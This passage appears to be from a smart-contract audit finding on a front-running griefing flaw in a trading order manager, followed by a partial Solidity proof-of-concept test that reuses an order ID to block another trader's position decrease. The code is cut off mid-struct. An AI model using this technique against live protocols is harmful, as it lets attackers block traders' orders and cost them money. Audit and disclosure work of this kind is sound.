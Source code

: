 Since the malicious user already created the position they won't get charged fees for the decrease since it cant be executed, allowing the malicious user to grief for a small gas cost.

```
PoC


function test_FrontRun_With_Same_OrderId() public {
        uint256 collateralAmount = 10 ether;
        uint256 currentMarketPrice = 3000;
        bool isLong = true;

        uint256 marketMaxLeverage = orderManager.getMarket(ETH_MARKET_ID).maxLeverage;
        uint256 orderSize = collateralAmount * marketMaxLeverage / PRECISION_MULTIPLIER;
        uint256 openingFeeAmount = orderSize * DEFAULT_OPENING_FEE / MAX_FEE;

        collateralAmount += openingFeeAmount;

        updatePriceChainlink(chainlinkEthFeed, currentMarketPrice);
        updatePythPrice(pythAddress, PYTH_PRICE_ID_ETH, currentMarketPrice);

        deal(WETH, TRADER_1, collateralAmount);

        bytes32 orderId = orderManager.getOrderId(ETH_MARKET_ID, ethVaultAddress, TRADER_1, isLong, 0);

        OrderDS.Order memory orderStruct = OrderDS.Order({
            orderId: orderId,
            marketId: ETH_MARKET_ID,
            userAddress: TRADER_1,
            orderType: OrderDS.OrderType.OPEN_NEW_POSITION,
            isLong: isLong,
            isLimitOrder: false,
            deadline: 0,
            collateralAmount: collateralAmount,
            orderSize: orderSize,
            expectedPrice: 0,
            maxSlippage: DEFAULT_TRADE_SLIPPAGE
        });


        vm.startPrank(TRADER_1);

        ERC20(WETH).approve(address(orderManager), collateralAmount);


        orderManager.createOrder(orderStruct, address(0));

        vm.stopPrank();

        // TRADER_1 opens a position
        _settleOrder(orderId, currentMarketPrice);

        orderId = orderManager.getOrderId(ETH_MARKET_ID, ethVaultAddress, TRADER_2, isLong, 0);

        orderStruct = OrderDS.Order({
            orderId: orderId,
            marketId: ETH_MARKET_ID,
            userAddress: TRADER_1,
            orderType: OrderDS.OrderType.DECREASE_POSITION,
            isLong: isLong,
            isLimitOrder: false,
            deadline: 0,
            collateralAmount: collateralAmount / 2,
```